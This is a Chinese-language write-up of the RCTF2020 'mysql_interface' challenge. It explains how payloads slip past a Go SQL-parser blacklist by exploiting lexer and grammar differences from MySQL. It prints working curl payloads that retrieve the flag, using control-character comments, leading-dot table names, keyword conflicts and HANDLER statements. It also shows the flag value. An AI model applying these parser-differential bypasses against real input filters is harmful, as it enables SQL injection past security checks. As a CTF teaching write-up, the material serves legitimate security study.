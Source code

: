 # mysql_interface

[English version](README.md)

## 题目描述

https://mysql-interface.rctf2020.rois.io

```go
import (
    "github.com/pingcap/parser"                     // v3.1.2-0.20200507065358-a5eade012146+incompatible
    _ "github.com/pingcap/tidb/types/parser_driver" // v1.1.0-beta.0.20200520024639-0414aa53c912
)

var isForbidden = [256]bool{}

const forbidden = "\x00\t\n\v\f\r`~!@#$%^&*()_=[]{}\\|:;'\"/?<>,\xa0"

func init() {
    for i := 0; i < len(forbidden); i++ {
        isForbidden[forbidden[i]] = true
    }
}

func allow(payload string) bool {
    if len(payload) < 3 || len(payload) > 128 {
        return false
    }
    for i := 0; i < len(payload); i++ {
        if isForbidden[payload[i]] {
            return false
        }
    }
    if _, _, err := parser.New().Parse(payload, "", ""); err != nil {
        return true
    }
    return false
}

// do query...
```

## 解题思路

题目接收一个有限字符集的SQL语句，并且需要绕过一个MySQL解析器的分析，不过该解析器在词法或者语法方面都存在多种绕过。

### 打破词法解析

通过阅读[mysql-server lexer](https://github.com/mysql/mysql-server/blob/5.7/sql/sql_lex.cc#L1424)的源码，不难发现它支持以'--'开头，并以标记为`_MY_SPC`或`_MY_CTR`的字符为结尾风格的行注释，而本题使用的解析器却使用了[unicode.IsSpace()](https://pkg.go.dev/unicode?tab=doc#IsSpace)来鉴别空格。这导致两者在词法解析层面的不一致，我们可以利用这一点绕过词法解析。


| 字符                                                  | MySQL Server       | Parser      |
| :---------------------------------------------------- | ------------------ | ----------- |
| 0x01 - 0x08, 0x15 - 0x19                              | _MY_CTR            | 不识别      |
| 0x14                                                  | _MY_SPC            | 不识别      |
| 0x09 (\t), 0x10 (\n), 0x11 (\v), 0x12 (\f), 0x13 (\r) | _MY_CTR 或 _MY_SPC | Not Allowed |
| 0x20 (space)                                          | _MY_SPC            | Space       |
| 0x85                                                  | Unrecognized       | Space       |
| 0xa0                                                  | 不识别             | Not Allowed |

上表列举了一些两者存在解析不一致的字符，如果你想找到更多字符，这些链接可能对你有用：

- [Character Definition Arrays](https://dev.mysql.com/doc/refman/5.7/en/character-arrays.html)
- [MySQL Server Source Code Charsets](https://github.com/mysql/mysql-server/tree/5.7/sql/share/charsets)

至此，我们可以很容易地打破词法解析器，从而绕过解析拿到flag，下面列举一些特殊的例子，

1. `\x01` 不被本题的解析器允许放在`--`之后，然而MySQL服务器却允许

   ```shell
   $ echo "select flag from flag--\x01"
   select flag from flag--
   $ curl https://mysql-interface.rctf2020.rois.io --data "sql=select%20flag%20from%20flag--%01&pow=000"
   RCTF{jUst_bYp@ss_a_mysql_parser_b6bdde}
   ```

2. `\x85` 被本题的解析器允许放在`--`之后，然而MySQL服务器却不允许

```shell
$ echo "select flag from flag --\x85tbl where --\x85tbl.flag+1"
select flag from flag --�tbl where --�tbl.flag+1
$ curl https://mysql-interface.rctf2020.rois.io --data "sql=select%20flag%20from%20flag%20%85rois%20where%20--%85rois.flag%2b1&pow=000"
RCTF{jUst_bYp@ss_a_mysql_parser_b6bdde}
```

### 打破语法分析

除了词法解析外，在语法分析层面也存在多个绕过。通过对比本题解析器的[yacc源码](https://github.com/pingcap/parser/blob/master/parser.y)和MySQL Server的[yacc源码](https://github.com/mysql/mysql-server/blob/5.7/sql/sql_yacc.yy)，不难发现，二者存在着显著的差异，这让我们在语法分析层面绕过异常简单。

#### 表名（Table Factor）

MySQL Server源码中允许的表名如下所示：

```yacc
// copied from https://github.com/mysql/mysql-server/blob/5.7/sql/sql_yacc.yy#L13059

table_ident:
    ident
    | ident '.' ident
    | '.' ident
    ;
```

但是在解析器中却存在着点不同：

```yacc
// copied from https://github.com/pingcap/parser/blob/master/parser.y#L6765

TableName:
    Identifier
    |	Identifier '.' Identifier
    ;

```

两者之间的差别，让我们可以直接绕过语法解析

```shell
$ echo "select flag from .flag"
select flag from .flag
$ curl https://mysql-interface.rctf2020.rois.io --data "sql=select%20flag%20from%20.flag&pow=000"
RCTF{jUst_bYp@ss_a_mysql_parser_b6bdde}
```

#### 关键字冲突（Keyword Conflicts）

当分析两个解析器差异时，关键字冲突永远是最容易发现的，而且一定会出现。由于有太多的方式来发现关键字冲突，这里只列举一个抛砖引玉。

由于MySQL源码与本题所使用的解析器，有着不同的关键字，而且标识符的属性也存在差异。题目的解析器所使用的关键字可以在[这里](https://github.com/pingcap/parser/blob/master/misc.go#L138)找到大部分。直接把关键字逐个提供给解析器分析，就能找到很多绕过的方法，如下：

- "select flag EXCEPT from flag"
- "select flag NVARCHAR from flag"
- "select flag CURRENT_ROLE from flag"
- "select flag PRE_SPLIT_REGIONS from flag"
- "select flag ROW from flag"
- "select flag ERROR from flag"
- "select flag PACK_KEYS from flag"
- "select flag SHARD_ROW_ID_BITS from flag"

```shell
$ echo "select flag EXCEPT from flag"
select flag EXCEPT from flag
$ curl https://mysql-interface.rctf2020.rois.io --data "sql=select%20flag%20EXCEPT%20from%20flag&pow=000"
RCTF{jUst_bYp@ss_a_mysql_parser_b6bdde}
```

### 非预期解

在比赛期间，天枢用了[HANDLER Statement](https://dev.mysql.com/doc/refman/5.7/en/handler.html)（我完全没想到的方式）成功绕过解析，并且拿到了三血！

```shell
$ echo "handler flag open" && echo "handler flag read first" && echo "handler flag close"
handler flag open
handler flag read first
handler flag close
$ curl https://mysql-interface.rctf2020.rois.io --data "sql=handler%20flag%20open&pow=000"
Empty set
$ curl https://mysql-interface.rctf2020.rois.io --data "sql=handler%20flag%20read%20first&pow=000"
RCTF{jUst_bYp@ss_a_mysql_parser_b6bdde}
$ curl https://mysql-interface.rctf2020.rois.io --data "sql=handler%20flag%29close&pow=000"
Empty set
```

最后，不只是上文提到的这些，该解析器中还存在很多很多绕过的地方...

## 感谢你的参与，期待明年RCTF2021再见！